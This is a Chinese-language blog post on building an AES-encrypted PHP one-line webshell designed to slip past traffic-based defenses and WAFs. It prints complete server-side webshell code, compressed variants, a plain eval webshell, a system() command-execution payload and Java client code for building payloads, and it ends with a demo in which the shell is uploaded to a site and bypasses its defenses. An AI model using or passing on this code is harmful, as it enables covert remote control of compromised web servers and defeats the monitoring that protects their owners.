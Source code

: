```yaml
---

layout: post
title:  "利用动态二进制加密实现新型一句话木马-php篇"
categories: [网络安全CyberSecurity]
tags: [一句话木马]

---
```


## 概述



利用动态二进制加密实现新型一句话木马之php篇


## 前言

在第一篇文章《利用动态二进制加密技术实现新型一句话木马之Java篇》中我们介绍了一种可以长期绕过所有流量型防护系统的思路，并完成了其Java版本的实现，绕过流程大体如下图，详细内容请参考第一篇文章。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180921104145-e1374058-bd47-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180921104145-e1374058-bd47-1.png)

现在我们继续实现该思路的PHP版本。

## 实现篇

### 服务端实现

得益于PHP语言的灵活性、松散性，现有的PHP一句话木马存在很多个版本，为了躲避杀毒软件和waf，php的一句话木马变形起来可以说是脑洞大开，精妙绝伦。下面我们来打造一个基于纯二进制流量的PHP一句话木马。当然，我们可以采用的方法远不止这一种，可以在此基础上衍生出各种变形。

和Java和.NET不同，PHP并不存在手动编译的过程，开发人员只要提供PHP源代码，然后PHP会自己把源代码编译为opcode，由Zend引擎来解析opcode。因为不存在编译的中间环节，当然也就不存在已编译的二进制类文件。所以这里我们要转变一下思路，在具体实现之前我们先看一个PHP的特性“可变函数”，官方描述为：PHP 支持可变函数的概念。这意味着如果一个变量名后有圆括号，PHP 将寻找与变量的值同名的函数，并且尝试执行它。可变函数可以用来实现包括回调函数，函数表在内的一些用途。下面看具体实现，直接上代码吧（为了增加可读性，我对代码进行了一些扩充）：

```
<?php
session_start();
if (isset($_GET['pass']))
{
    $key=substr(md5(uniqid(rand())),16);
    $_SESSION['k']=$key;
    print $key;
}
else
{
    $key=$_SESSION['k'];
    $decrptContent=openssl_decrypt(file_get_contents("php://input"), "AES128", $key);
    $arr=explode('|',$decrptContent);
    $func=$arr[0];
    $params=$arr[1];
    $func($params);
}
?>
```

简单解释一下流程：

- 首先客户端以Get形式发起带密码的握手请求，服务端产生随机密钥并写入Session。
- 客户端将源代码，如assert|eval("phpinfo();”)利用AES加密，发送至服务端，服务端收到之后先进行AES解密，得到中间结果字符串assert|eval("phpinfo();")。
- 服务端利用explode函数将拆分为一个字符串数据，索引为0的元素为字符串assert，索引为1的元素为字符串eval("phpinfo();")。
- 以可变函数方式调用索引为0的数组元素，参数为索引为1的数组元素，即为assert("eval(\"phpinfo;\")") 。

压缩一下：

```
<?php session_start();isset($_GET['pass'])?print $_SESSION['k']=substr(md5(uniqid(rand())),16):($b=explode('|',openssl_decrypt(file_get_contents("php://input"), "AES128", $_SESSION['k'])))&$b[0]($b[1]);?>
```

或者：

```
<?php session_start();isset($_GET['pass'])?print $_SESSION['k']=substr(md5(uniqid(rand())),16):($b=explode('|',openssl_decrypt(file_get_contents("php://input"), "AES128", $_SESSION['k'])))&call_user_func($b[0],$b[1]);?>
```

### 客户端实现

由于Java、.net、php三个版本是公用一个客户端，且其中多个模块可以实现复用，为了节省篇幅，此处就不再介绍重叠的部分，只针对PHP平台特异化的部分介绍一下。

##### 1.远程获取加密密钥

详细请参考《利用动态二进制加密技术实现新型一句话木马之Java篇》。

##### 2.动态生成二进制字节数组

如前文所述，PHP版本的Payload是直接用PHP源代码的形式来编写，样式如下：assert|eval(Payload)。然后取字符串的字节流，为后续的加密做准备。。

##### 3.已编译类的参数化

为了实现参数化，客户端对PHP的Payload做了一个内部约定，Payload的格式应为function main(arg1…argN){} main(arg1…argN);

比如一个最简单的命令执行的Payload:

```
function main(cmd)
{
    echo system(cmd);
}
main('whoami');
```

当然开发Payload的时候，我们只要专门写函数就行了，后面main函数的调用和参数填充，是由客户端程序自动实现的，相关代码如下：

```
public static byte[] getParamedPhp(String clsName, final Map<String, String> params) throws Exception {
    String basePath="net/rebeyond/behinder/payload/php/";
    String payloadPath=basePath+clsName+".php";
    StringBuilder code=new StringBuilder();
    ByteArrayInputStream bis = new ByteArrayInputStream(Utils.getResourceData(payloadPath));
    ByteArrayOutputStream bos = new ByteArrayOutputStream();
    int b;
    while (-1 != (b = bis.read()))
        bos.write(b);
    bis.close();
    code.append(bos.toString());
    String paraList="";
    for (String paraName : params.keySet()) {

        String paraValue = params.get(paraName);

        code.append(String.format("$%s=\"%s\";", paraName,paraValue));
        paraList+=",$"+paraName;
    }
    paraList=paraList.replaceFirst(",", "");
    code.append("\r\nmain("+paraList+");");
    return code.toString().getBytes();
}
```

##### 4.加密payload

将上一步中getParamedPhp函数返回的Payload源代码字符串的字节流，利用握手请求产生的密钥进行AES加密，详细请参考《利用动态二进制加密技术实现新型一句话木马之Java篇》。

##### 5.发送payload，接收执行结果并解密

详细请参考《利用动态二进制加密技术实现新型一句话木马之Java篇》。

## 案例演示

下面我找了一个测试站点来演示一下绕过防御系统的效果：

首先我上传一个常规的PHP一句话木马<?php @eval($_POST['caidao']);?>，然后用菜刀客户端连接，如下图，连接直接被防御系统reset了：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180921104312-1560723c-bd48-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180921104312-1560723c-bd48-1.png)

然后上传我们的新型一句话木马，并用响应的客户端连接，可以成功连接并管理目标系统：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180921104326-1d78ff8e-bd48-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180921104326-1d78ff8e-bd48-1.png)